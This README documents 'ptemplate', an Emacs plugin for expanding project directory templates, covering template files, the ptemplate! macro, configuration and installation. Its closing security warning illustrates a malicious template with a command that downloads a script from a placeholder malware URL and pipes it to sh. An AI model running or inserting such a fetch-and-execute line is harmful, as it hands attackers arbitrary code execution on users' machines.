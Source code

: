 # About
Projects contain a lot of boilerplate like build system files, cask files,
license files, ..., making starting new projects more work than it needs to be.
The ptemplate Emacs plugin solves that problem: it lets you define directory
templates that can contain various files and directories, including yasnippets.
Such templates ("ptemplates") can even be made intelligent using Emacs Lisp.

# Usage
## Creating new projects
For helm users, run `ptemplate-expand-template`. It will then prompt you to
select a template followed by a project directory. The templates are categorized
in types, which are either mapped to helm sections or to suffixes appended to
template names (see the "Configuration" section below).

# Writing templates
All templates are categorized into types, which are associated with workspace
directories using the variable `ptemplate-workspace-alist`. You could, for
example, have types corresponding to languages (so a Java type, a C++ type,
...). The corresponding workspace is used as the default folder in the project
directory selection. Templates are stored in `ptemplate-template-dirs`, a list
of directories containing templates, all of which must be categorized under type
directories as described above.

## Anatomy of a template
Each template has a nested directory structure, consisting of any number of
files and directories, which is replicated at the expansion target. Some files
(depending on their suffix) are expanded specially, and their extension is not
replicated:

### \*.yas
Files ending in .yas are yasnippets, which are expanded in a so-called snippet
chain: a list of all such files is gathered, after which a single buffer pops up
where the user can expand the first snippet like any regular yasnippet (TAB,
...). The following snippets can be visited similarly by pressing `C-c C-c`, at
which point the buffer is killed and written to the target. The following
keybindings are available in a snippet chain buffer:

#### `C-c C-c`: `ptemplate-snippet-chain-continue`
Finish expanding the current yasnippet by writing the current snippet buffer to
the correct destination and killing its buffer.

#### `C-C C-l`: `ptemplate-snippet-chain-later`
Mark the current snippet buffer to be expanded later and continue like
`ptemplate-snippet-chain-continue`. Unlike with `ptemplate-snippet-chain-next`,
the snippet buffer is not killed. You can use this keybinding to procrastinate
expansion of the current snippet and look at the others meantime.

The keybindings can be modified by customizing
`ptemplate-snippet-chain-mode-map`.

### \*.keep
.keep files are copied like normal files, but without the .keep extension. Name
files this way if you need to override ptemplate's special file handling for
some files (e.g. if you are writing templates for ptemplate templates).

### \*.nocopy
Such files are not copied at all. Empty directories cannot be added to git. This
way, an empty .gitkeep.nocopy file can be added in empty directories to make
them part of the template.

### .ptemplate.el
As stated in "About", ptemplate allows templates to be scripted with Emacs Lisp.
For this, you can add .ptemplate.el in the template's root directory, which is
evaluated before expansion. This file is not copied. Even though arbitrary lisp
code, executed in the main Emacs instance, can be contained within it, templates
should make use of the `ptemplate!` macro. It takes any number of keyword blocks
(akin to `use-package`) which are then expanded to the correct lisp code:

- :init FORMs to run before expansion
- :before-snippets FORMs to run before expanding yasnippets
- :after-copy FORMs to run after all files have been copied
- :finalize FORMs to run after expansion finishes.
- :ignore Regular expressions of filenames to ignore or paths to ignore.

For details, see `M-x describe-function ptemplate!`.

Some other useful functions include:
- `ptemplate-map`: map one template file to another in the target
- `ptemplate-remap`: remap template files
- `ptemplate-remap-rec`: recursively remap template directories
- `ptemplate-copy-target`: copy files from one target location to another

# Configuration
## ptemplate-template-prompt-function
This variable specifies which function to use for prompting templates. It can be
a custom function, or one of the builtin ones (see its docstring for details).
By default it prompts templates using completing-read, and their types appended
in parentheses. There is also a builtin function available to use separate helm
sections (sources) instead:

```emacs-lisp
(setq ptemplate-prompt-template-completing-read
      #'ptemplate-prompt-template-helm)
```

## ptemplate-workspace-alist
Maps template types to workspaces. When a new project is created, the type is
looked up in this alist and the directory mapped is suggested as the default
target, in which another directory may be specified for expansion. If the type
is not associated, use `ptemplate-default-workspace`, or the current buffer's
`default-directory` if even that is nil.

## ptemplate-default-workspace
See above.

## ptemplate-template-dirs
List of directories in which templates are looked up. Each directory specified
shall consist of a number of subdirectories (corresponding to types) each of
which have separate subdirectories for templates (template names).

# Installation
This package is not yet on `MELPA`. However, you can install it using any
package manager/fetcher that can handle GitHub repositories:

## `quelpa` + `use-package`
``` emacs-lisp
(quelpa '(ptemplate :fetcher github :repo "nbfalcon/ptemplate"))
(use-package ptemplate)
```

## `quelpa-use-package`
``` emacs-lisp
(use-package ptemplate
  :quelpa (ptemplate :fetcher github :repo "nbfalcon/ptemplate"))
```

## `straight-use-package`
``` emacs-lisp
(straight-use-package
 '(ptemplate :type git :host github :repo "nbfalcon/ptemplate"))
```

# Security note
Due to the smart expansion feature, and due to allowing yasnippets in templates,
ptemplate is *not* secure. You should use only trusted templates. A malicious
template could have a snippet like the following in its .ptemplate.el or in a
\`\` block of one of its yasnippets:

```emacs-lisp
(shell-command "wget $SH_MALWARE_URL | sh")
```

At that point, all security would be lost: the malicious shell script could nuke
your home directory, implant a .profile-based rootkit, modify user-owned
software, .... The possibilities are endless.
